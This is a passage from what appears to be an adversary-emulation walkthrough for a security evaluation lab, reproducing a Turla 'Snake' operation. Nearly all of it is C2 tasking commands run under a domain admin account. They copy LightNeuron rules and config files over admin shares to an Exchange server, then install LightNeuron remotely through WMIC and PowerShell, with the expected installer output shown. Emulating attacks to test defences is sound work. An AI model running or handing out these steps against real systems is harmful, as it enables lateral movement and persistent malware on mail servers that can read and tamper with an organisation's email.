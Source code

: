 * Wait 1 minute before copying the rules file:

```bash
# Copy email rules file
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\wdr.rules.xml \\\\drebule\\C$\\Windows\\ServiceProfiles\\NetworkService\\AppData\\Local\\Temp\\msmdat.xml", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute before copying the last config file:

```bash
# Copy config file
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\perfe009.dat \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\v15\\bin\\winmail.dat\"", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute and then task Snake to install LightNeuron remotely using WMI and Powershell, using `ZilvinasAdmin`'s token

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "wmic.exe", "args": "/node:drebule /privileges:enable /output:STDOUT process call create \"cmd.exe /c powershell.exe -File C:\\Windows\\System32\\msiex.ps1 > C:\\Windows\\Temp\\msiexinstallation.log 2>&1\"", "runas": "nk\\ZilvinasAdmin"}'
```

:heavy_exclamation_mark: Verify that the WMIC output shows a `ReturnValue` of 0.

* Wait 1 minute and then task Snake to check the installation log for any errors:

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "type \\\\drebule\\C$\\Windows\\Temp\\msiexinstallation.log", "runas": "nk\\ZilvinasAdmin"}'
```

> Expected output will start with messages regarding PS-Session, the bottom of
> the file should look like:
>
> ```text
> PSComputerName        : localhost
> RunspaceId            : 1e56a6dd-5fd2-4545-9db8-2a4ca6a77212
> Enabled               : False
> Priority              : 10
> TransportAgentFactory : Microsoft.Exchange.Transport.Agent.ConnectionFiltering.ConnectionFilteringAgentFactory
> AssemblyPath          : C:\Program Files\Microsoft\Exchange Server\V15\TransportRoles\agents\Hygiene\Microsoft.Exchange
>                         .Transport.Agent.ConnectionFiltering.dll
> IsCritical            : True
> EscalationTeam        : 
> Identity              : Connection Filtering Agent
> IsValid               : True
> ObjectState           : New
> 
> WARNING: Please exit Windows PowerShell to complete the installation.
> WARNING: The following service restart is required for the change(s) to take effect : MSExchangeTransport
> WARNING: The following service restart is required for the change(s) to take effect : MSExchangeTransport
> WARNING: Waiting for service 'Microsoft Exchange Transport (MSExchangeTransport)' to stop...
> WARNING: Waiting for service 'Microsoft Exchange Transport (MSExchangeTransport)' to start...
> ```
